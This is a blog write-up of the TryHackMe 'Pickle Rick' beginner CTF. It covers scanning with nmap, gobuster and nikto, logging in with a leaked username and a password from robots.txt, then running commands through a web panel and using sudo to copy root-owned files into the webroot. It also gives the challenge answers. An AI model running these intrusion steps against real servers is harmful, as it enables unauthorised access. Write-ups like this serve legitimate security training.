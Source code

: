 ```yaml
---
author: Chance Johnson
date: 2023-04-01
description: Beginner level web server CTF by tryhackme on TryHackMe.
layout: post
title: Pickle Rick
---
```

[Pickle Rick](https://tryhackme.com/room/picklerick) is a beginner level web app CTF on TryHackMe by tryhackme. For this challenge, I will use Kali Linux.

# 1. What is the first ingredient Rick needs?
The description of this challenge says to exploit a web server. First I opened up Firefox and entered the given IP:
![[Screenshot from 2023-03-31 17-43-44.png]]

The text at the bottom says we must log on to Rick's computer and find three ingredients to complete the pickle-reverse potion. The problem is that Rick forget his password.

Upon inspecting the HTML of the website, I found the following comment in the `<body>` tag:
```
<!--
	Note to self, remember username!
	Username: R1ckRul3s
-->
```

Now I've got a username, `R1ckRul3s`, but where can I use it? I'll do some more enumeration:
```
sudo nmap 10.10.225.43
```

Output:
```
22/tcp open  ssh
80/tcp open  http
```

There appears to be an SSH server listening on `22/tcp`.  When I attempt to login to the server with the "R1ckRul3s" username, I get a "permission denied (publickey)" message. 

I'll look for some more resources:
```
gobuster dir -u http://10.10.225.43/ -w /usr/share/wordlists/dirb/common.txt
```

The following resources were discovered:
```
/.hta
/.htpasswd
/.htaccess
/assets
/index.html
/robots.txt
/server-status
```

The `/server-status` page gave me an HTTP 403 Forbidden error. On the `/robots.txt` page was the text: `Wubbalubbadubdub`. 

I'm going to do some more enumeration with Nikto:
```
nikto -host http://10.10.225.43
```

Output:
```
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /login.php: Admin login page/section found.
```

Looks like this is an Apache server running on an Ubuntu host. The scan also found a`/login.php` page:
![[Screenshot from 2023-03-31 17-55-40 1.png]]

I already know the username is `R1ckRul3s`, but what is the password? I'll try that text that was in the `/robots.txt` file: `Wubbalubbadubdub`.

Looks like it was successful. I am logged into what appears to be some kind of admin panel at `/portal.php`:
![[Screenshot from 2023-03-31 18-00-47.png]]

I already know this website is being hosted on an Ubuntu host, so I'm assuming this is an interface for running Bash commands. I typed in `ls` into the input field, and the following was printed to page:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

I appear to be in the root directory of the web server. It looks like one of the ingredients can be found in `Sup3rS3cretPickl3Ingred.txt`. I attempted to view the contents of this file with the command `cat Sup3rS3cretPickl3Ingred.txt`, but I was greeted with the following page:
![[Screenshot from 2023-03-31 18-09-36.png]]

I navigated to `http://10.10.225.43/Sup3rS3cretPickl3Ingred.txt` which displayed the text `mr. meeseek hair`.

**Answer**: mr. meeseek hair

# 2. Whats the second ingredient Rick needs?
There's another file in the web server root called `clue.txt`. I navigated to `http://10.10.225.43/clue.txt` and found the text `Look around the file system for the other ingredient.`.

I found another user `rick` in the `/home` directory, so I executed `ls /home/rick`, and found another regular file named `second ingredients`. Now how do I open this file? First, I attempt to copy the file to the web server root directory:

```
cp "/home/rick/second ingredients" .
```

However this didn't seem to work, so I must not have sufficient permissions. After some messing around, I discovered I can execute commands as the root user:
```
sudo -u root whoami
```

Output: `root`. I'll attempt to copy the file again:
```
sudo -u root cp "/home/rick/second ingredients" .
```

This time it appears to have worked, so I'll navigate to `http://10.10.225.43/second ingredients` where I find the text `1 jerry tear`.

**Answer**: 1 jerry tear

# 3. Whats the final ingredient Rick needs?
After some digging around, I found a text file called `3rd.txt` in the `/root` directory. I copied that to the Apache web server's root directory:
```
sudo -u root cp /root/3rd.txt .
```

And navigated to `http://10.10.225.43/3rd.txt`, where I found the text `3rd ingredients: fleeb juice`.

**Answer**: fleeb juice

